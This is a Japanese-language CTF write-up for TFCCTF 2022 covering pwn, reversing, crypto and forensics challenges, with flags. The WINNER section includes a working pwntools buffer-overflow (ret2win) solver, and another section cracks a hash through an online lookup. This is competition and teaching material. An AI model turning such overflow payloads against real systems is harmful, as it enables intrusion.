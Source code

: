 ```yaml
---
layout: post
title:  "tfcctf 2022 writeup"
date:   2022-08-16 23:14:54
categories: CTF
tags: writeup
---
```


* content
{:toc}


## RANDOM/PWN

Author: tomadimitrie, WARMUP

I created a random number generator as a project. Unfortunately it only has one option, but I will add more soon (or not)!

### SOLUTION

デコンパイルをすると、標準入力から受け取った値が`1337`のときフラグを出力していました。

### FLAG

```
TFCCTF{Th3r3_w3r3_m0r3_0pt10n5_4ft3r_4ll!}
```

## WINNER/PWN

Author: tomadimitrie, EASY

You just won a contest! What do you do?

### SOLUTION

GLIBC_2.34が必要とのことで、ビルドが面倒なのでDockerイメージを使いました。

```bash
docker pull frolvlad/alpine-glibc:alpine-3.15_glibc-2.34
# after runnning
apk add python3 py3-pip strace
pip3 install pwntools
```

デコンパイルでmain関数をみるとscanfで読み取って終了しているだけでした。他の関数を見るとFLAGを出力する関数があったので、RIP系だと判断できました。

```bash
004011b6  int64_t win()

004011e6  {
004011e6      return printf(&data_40200d, getenv("FLAG"));
004011c5  }
```

straceを使って、SIGSEGVが発生する文字数を調べると120文字でした。

```bash
$ python3 -c 'print("A"*120, end="")' | strace -i ./winner
////////////
[00007efd0e08f212] read(0, "A", 1)      = 1
[00007efd0e08f212] read(0, "", 1)       = 0
[00007efd0dfbb506] --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=NULL} ---
[????????????????] +++ killed by SIGSEGV +++
Segmentation fault
```

あとはret命令のアドレスとwin関数のアドレスを調べて、ソルバーを書きました。

```python
from pwn import *

binfile = "./winner"
context.binary = binfile
elf = ELF(binfile)

# ROPgadget --binary ./winner | grep ": ret"
ret = 0x40101a # ret
print(ret)

win = elf.symbols['win']
HOST='localhost'
PORT=8888

# conn = process(binfile)
conn = remote(HOST, PORT)
conn.recvuntil(b':')

payload = b'A' * 120 + p64(ret) + p64(win)

conn.sendline(payload)
p = conn.interactive()
print(p)
```

### FLAG

```
TFCCTF{C0ngr4tulati0n5_0n_th3_pr1z3!}
```

## SOURCE/REVERSE


Author: tomadimitrie, WARMUP

My intern likes to hide things in apps, but they don't give me the source code. What can I do?

### SOLUTION

stringsをするとフラグが書かれていました。これフラグのルール満たしていなくね？

### FLAG

```
TFC{3v3ryth1ng_1s_0p3n_5ourc3_1f_y0u try_h4rd_3n0ugh}
```

## COLORS/REVERSE

Author: tomadimitrie, MEDIUM

A wonderful color generator! Only available for iOS. Sorry!

The app extracts some data from the user's phone. What is it?: 解けなかった

The app connects to a server to upload the data. What is the URL?：以下書いていく

### SOLUTION

ipaファイルをunzipしたところ、`colors` という実行ファイルが出てきました。stringsを実行すると`http://localhost:8080`が見えました。

### FLAG

```
http://localhost:8080
```

### REF

https://sei0o.hateblo.jp/entry/2017/12/07/170410

## OBSCURE/CRYPTO



![obscure]({{site.baseurl}}/images/tfcctf2022/obsecure.png)

### SOLUTION

気合いでなんとかする。エディタに展開するとまだ読めるかも？

### FLAG

```
TFCCTF{s3cur1ty_thr0ugh_0bscur1ty}
```

## BBBBBBBBBB/FORENSICS

Author: hofill

BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB

### SOLUTION

配られた画像ファイルが破損していたので、バイナリエディタで開くと`BBBBBBBBBB`というデータ列が書き込まれていました。それらを全て取り除くと、プレビューアプリで画像を開くことができ、そこにフラグが書かれていました。

![flag]({{site.baseurl}}/images/tfcctf2022/chall.jpg)

### FLAG

```
TFCCTF{the_fl4g_1s_th3_w4y}
```

---

解けなかった問題

## CRASH/FORENSICS

Author: hofill, WARMUP

Oh no! My computer crashed. Can you help me find out why?

### SOLUTION(やったとこまで)

DMPファイルが配られたため、volatilityで解析を試みましたが、Profileが不明でした。

```bash
python2.7 vol.py -f ./MEMORY.DMP imageinfo
Volatility Foundation Volatility Framework 2.6.1
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : No suggestion (Instantiated with Win10x64_19041)
                     AS Layer1 : FileAddressSpace (/home/ubuntu/volatility/MEMORY.DMP)
                      PAE type : No PAE
                           DTB : 0x1ae002L
             KUSER_SHARED_DATA : 0xfffff78000000000L
```


## MAFIOSO/CRYPTO

Author: hofill, WARMUP

A soldier was walking around the streets of Sicily, late at night, with THE Consigliere. Same soldier, the very next day, found in a ditch with a note in his breast pocket. It read:

f433c3e883a1389482c0b652660580f36ea037434fd4a67d193bc1cdc9b2cc34

Flag format: TFCCTF{secret_message}
### SOLUTION(やったとこまで)

hash値っぽいと思い、オンラインの解析ツールにつっこむと英文らしき文字列が出てきました。

https://crackstation.net/

![mafiso]({{site.baseurl}}/images/tfcctf2022/mafiso.png)

### FLAG

```
TFCCTF{snitchesgetstitches}
```

